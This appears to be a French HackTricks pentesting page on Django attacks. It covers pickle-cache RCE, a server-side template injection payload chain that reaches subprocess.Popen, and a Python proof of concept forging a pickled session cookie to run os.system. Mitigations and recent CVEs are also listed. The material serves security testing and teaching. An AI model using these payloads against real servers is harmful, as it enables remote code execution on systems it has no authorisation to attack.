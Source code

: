 # Django

{{#include /banners/hacktricks-training.md}}

## Manipulation du cache pour RCE
La méthode de stockage par défaut du cache de Django est [Python pickles](https://docs.python.org/3/library/pickle.html), ce qui peut conduire à RCE si [des entrées non fiables sont dé-picklées](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Si un attaquant peut obtenir un accès en écriture au cache, il peut escalader cette vulnérabilité en RCE sur le serveur sous-jacent**.

Le cache de Django est stocké dans l'un des quatre endroits suivants : [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [mémoire](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [fichiers](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), ou une [base de données](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Le cache stocké dans un serveur Redis ou une base de données est le vecteur d'attaque le plus probable (injection Redis et injection SQL), mais un attaquant peut également être en mesure d'utiliser un cache basé sur des fichiers pour transformer une écriture arbitraire en RCE. Les mainteneurs ont marqué cela comme un non-problème. Il est important de noter que le dossier de fichiers de cache, le nom de la table SQL et les détails du serveur Redis varieront en fonction de l'implémentation.

Ce rapport HackerOne fournit un excellent exemple reproductible d'exploitation du cache Django stocké dans une base de données SQLite : https://hackerone.com/reports/1415436

---

## Injection de modèle côté serveur (SSTI)
Le langage de modèle Django (DTL) est **Turing-complet**. Si des données fournies par l'utilisateur sont rendues sous forme de *chaîne de modèle* (par exemple en appelant `Template(user_input).render()` ou lorsque `|safe`/`format_html()` supprime l'auto-échappement), un attaquant peut atteindre un SSTI complet → RCE.

### Détection
1. Recherchez des appels dynamiques à `Template()` / `Engine.from_string()` / `render_to_string()` qui incluent *toute* donnée de requête non assainie.
2. Envoyez une charge utile basée sur le temps ou arithmétique :
```django
{{7*7}}
```
Si la sortie rendue contient `49`, l'entrée est compilée par le moteur de modèle.

### Primitive à RCE
Django bloque l'accès direct à `__import__`, mais le graphe d'objets Python est accessible :
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Trouvez l'index de `subprocess.Popen` (≈400–500 selon la version de Python) et exécutez des commandes arbitraires :
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Un gadget universel plus sûr consiste à itérer jusqu'à ce que `cls.__name__ == 'Popen'`.

Le même gadget fonctionne pour les fonctionnalités de rendu de **Debug Toolbar** ou **Django-CMS** qui gèrent mal les entrées utilisateur.

---

## Exécution de Code à Distance via Cookie de Session Basé sur Pickle
Si le paramètre `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` est activé (ou un sérialiseur personnalisé qui désérialise pickle), Django *décrypte et désérialise* le cookie de session **avant** d'appeler tout code de vue. Par conséquent, posséder une clé de signature valide (la `SECRET_KEY` du projet par défaut) suffit pour une exécution immédiate de code à distance.

### Exigences d'Exploitation
* Le serveur utilise `PickleSerializer`.
* L'attaquant connaît / peut deviner `settings.SECRET_KEY` (fuites via GitHub, `.env`, pages d'erreur, etc.).

### Preuve de Concept
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Envoyez le cookie résultant, et le payload s'exécute avec les permissions du worker WSGI.

**Atténuations** : Gardez le `JSONSerializer` par défaut, faites tourner le `SECRET_KEY`, et configurez `SESSION_COOKIE_HTTPONLY`.

---

## CVEs Django à Fort Impact Récents (2023-2025) que les Pentesters Doivent Vérifier
* **CVE-2025-48432** – *Injection de Log via `request.path` non échappé* (corrigé le 4 juin 2025). Permet aux attaquants de faire passer des nouvelles lignes/des codes ANSI dans les fichiers journaux et de polluer l'analyse des journaux en aval. Niveau de patch ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Injection SQL critique* dans `QuerySet.values()/values_list()` sur `JSONField` (CVSS 9.8). Créez des clés JSON pour sortir des guillemets et exécuter du SQL arbitraire. Corrigé dans 4.2.15 / 5.0.8.

Toujours identifier la version exacte du framework via la page d'erreur `X-Frame-Options` ou le hash de `/static/admin/css/base.css` et tester ce qui précède lorsque cela est applicable.

---

## Références
* Publication de sécurité Django – "Django 5.2.2, 5.1.10, 4.2.22 traitent CVE-2025-48432" – 4 juin 2025.
* OP-Innovate : "Django publie des mises à jour de sécurité pour traiter la faille d'injection SQL CVE-2024-42005" – 11 août 2024.

{{#include /banners/hacktricks-training.md}}
